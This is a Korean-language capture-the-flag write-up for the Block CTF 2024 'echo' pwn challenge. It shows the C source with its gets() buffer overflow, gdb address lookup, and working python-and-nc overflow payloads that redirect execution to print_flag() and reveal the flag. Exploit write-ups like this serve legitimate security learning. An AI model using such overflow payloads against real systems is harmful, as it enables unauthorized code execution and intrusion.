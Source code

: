 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Block CTF 2024 #Pwn echo Write-Up</h1>
</body>
<br>
<br>
</html>

![image](https://github.com/user-attachments/assets/a3541a39-e399-490b-bda6-52f74e619a2f)

먼저 문제를 읽어보면 서버가 입력받은 내용을 그대로 되돌려주는 에코 서버에 대한 것 같다. 

이어서 ```echo.c```코드를 살펴보면

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

void print_flag() {
    puts(getenv("FLAG"));
    puts("^^ Flag!!111!!!! ^^");
}

void do_echo() {
    uint8_t echo_buffer[256] = {0};
    gets(echo_buffer);
    puts(echo_buffer);
}

int main(void) {
    puts("ECHO! Echo! echo!");
    do_echo();
    return 0;
}
```

```do_echo()``` 함수에서 ```gets()``` 함수가 ```echo_buffer``` 배열에 사용자 입력을 받아 저장하고, ```puts()```로 다시 출력하는 단순한 에코 기능이 구현되어 있다. 

그리고 가장 눈에 띄는 부분은 ```gets()``` 함수인데 ```gets()``` 함수는 버퍼 오버플로우 공격에 취약하다.

```gets()```는 입력된 데이터가 ```echo_buffer```의 크기(256바이트)를 초과하더라도 제한 없이 메모리에 계속 저장하므로, 이 버퍼 오버플로우를 이용해 ```print_flag()``` 함수를 실행할 수 있을 것 같다.

버퍼 오버플로우 공격을 수행하기 위해서는 ```print_flag()```함수의 주소가 필요하니 디버거(gdb)를 사용해서 ```print_flag()```함수의 주소를 찾아보았다.

![image](https://github.com/user-attachments/assets/d505ee95-7578-41cb-b4fc-b1f2c34b8acd)

이때 x86-64 시스템은 리틀 엔디안 형식을 사용하므로 찾은 ```print_flag()```의 주소 ```0x401176```를 입력할 때는 바이트 순서를 반대로 적어야 한다. 즉, ```\x76\x11\x40\x00```로 사용해야 한다.

본격적으로 버퍼 오버플로우 공격을 시도해 보자

아래 코드 처럼 ```echo_buffer```의 크기(256바이트)를 채운 후 ```return address```에 ```print_flag()```의 주소를 넣으면 된다.

```python
python3 -c 'print("A" * 256 + "\x76\x11\x40\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/e34ec419-aeb2-42f2-a150-1bf44f57827e)

그러나 flag 값이 나오지 않는다.

뭐가 문제인지 잘 모르겠어서 구글링을 해보니 패딩을 늘려가면서 ```return address```에 도달하는 확인해 볼수 있다고 한다. 

그래서 패딩을 264바이트로 늘려 시도해보았다.

```
python3 -c 'print("A" * 264 + "\x76\x11\x40\x00\x00\x00\x00\x00")' | nc 54.85.45.101 8008
```

![image](https://github.com/user-attachments/assets/b2eb91e7-a9ba-4d90-ae74-d1931407d5e2)

flag를 찾았다!!!!!

flag{curs3d_are_y0ur_eyes_for_they_see_the_fl4g}
